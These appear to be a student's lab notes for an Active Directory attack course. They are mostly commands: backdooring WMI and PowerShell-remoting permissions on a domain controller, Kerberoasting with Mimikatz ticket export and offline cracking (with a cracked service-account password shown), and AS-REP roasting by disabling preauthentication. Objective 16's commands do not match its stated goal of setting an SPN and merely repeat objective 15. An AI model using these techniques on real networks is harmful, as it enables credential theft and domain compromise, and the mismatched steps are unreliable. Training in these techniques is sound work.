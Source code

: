 # Learning Objective 13

• Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access. 
	- `<STUDENT VM> Set-RemoteWMI -UserName student27 -Verbose`
	- `<DCORP-DC VM> Set-RemoteWMI -UserName student27 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
	- `<STUDENT VM> Set-RemotePSRemoting -UserName student27 -Verbose`
	- `<DCORP-DC VM> Set-RemotePSRemoting -UserName student27 -ComputerName dcorp-dc -Verbose

• Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI.


# Learning Objective 14

Using the Kerberoast attack, crack password of a SQL server service account.
- Enumeration
	- Get User SPN for SQL account: `Get-NetUser –SPN`
	- Request a TGS:
```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```
- Export ticket: `Invoke-Mimikatz -Command '"kerberos::list /export"'`
-  Crack ticket: `python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student27@MSSQLSvc~dcorpmgmt.dollarcorp.moneycorp.localDOLLARCORP.MONEYCORP.LOCAL.kirbi`
- Cracked service account password: `*ThisisBlasphemyThisisMadness!!`

# Learning Objective 15

• Enumerate users that have Kerberos Preauth disabled.
	- `Get-DomainUser -PreauthNotRequired -Verbose | select cn`
• Obtain the encrypted part of AS-REP for such an account. 
	- `Get-ASREPHash -UserName VPN27user`
• Determine if studentx has permissions to set UserAccountControl flags for any user. 
	- `Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} | select ObjectDN`
• If yes, disable Kerberos Preauth on such a user and obtain encrypted part of AS-REP.
	- `Set-DomainObject -Identity Control27User -XOR @{useraccountcontrol=4194304} –Verbose`
	- `Get-ASREPHash -UserName Control27User -Verbose`

# Learning Objective 16

- Determine if studentx has permissions to set UserAccountControl flags for any user. 
	- `Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} | select ObjectDN`
- If yes, force set a SPN on the user and obtain a TGS for the user.
	- `Set-DomainObject -Identity Support27User -XOR @{useraccountcontrol=4194304} –Verbose`
	- `Get-ASREPHash -UserName Support27User -Verbose`
